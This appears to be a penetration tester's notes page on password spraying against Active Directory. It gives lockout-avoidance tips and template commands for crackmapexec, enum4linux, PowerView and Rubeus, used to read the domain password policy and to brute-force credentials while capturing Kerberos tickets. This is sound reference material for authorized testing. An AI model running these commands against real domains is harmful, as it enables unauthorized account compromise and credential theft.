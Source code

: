 # Active Directory Password Spraying

> Spray common passwords for known usernames in an Active Directory environment.

---

## Minimum Password Length

Active Directory's default minimum password length is 7 characters. Make sure the passwords you try at at least that long.

If you have a domain user's credentials, [[password-spraying#Determine the Domain's Password Policy|determine the domain's password policy]].

---

## Account Lockout Threshold

Active Directory's default number of incorrect login attempts before lockout is 10 attempts. Generally don't try more than 5-7 attempts.

If you have a domain user's credentials, [[password-spraying#Determine the Domain's Password Policy|determine the domain's password policy]].

---

## Determine the Domain's Password Policy

You need a domain user's credentials for these.

```bash
crackmapexec smb $DOMAIN_CONTROLLER_HOSTNAME_OR_IP -u $USERNAME -p $PASSWORD --pass-pol
```

```bash
enum4linx -u $USERNAME -p $PASSWORD -P $DOMAIN_CONTROLLER_HOSTNAME_OR_IP
```

From [[powerview|PowerView]]:

```powershell
(Get-DomainPolicy).SystemAccess
```

---

## [[statistically-likely-lists|Statistically Likely Password Lists]]

---

## Password Spray an Active Directory Domain

### From Linux:

[[crackmapexec#General Syntax Pass a credential s to a target s to check for access]]

### From a domain-joined Windows machine:

```powershell
Rubeus.exe brute [/domain:$DOMAIN] [/users:$USERS_FILE] [/password:$PASSWORD] [/passwords:$PASSWORDS_FILE] [/outfile:$OUTPUT_FILE] [/noticket]
```

- `/domain`: if omitted, uses the current domain
- `/users`: if omitted, tries current domain users
- You need either `/password` or `/passwords`
- If you don't use `/outfile`, the results will be written to `stdout`.
- `/noticket`: if omitted, a corresponding TGT will be written to `stdout` for each successful credential discovered. If present, it will be written to `.\$USERNAME.kirbi` where `$USERNAME` is the username of the user whose credential was discovered. 
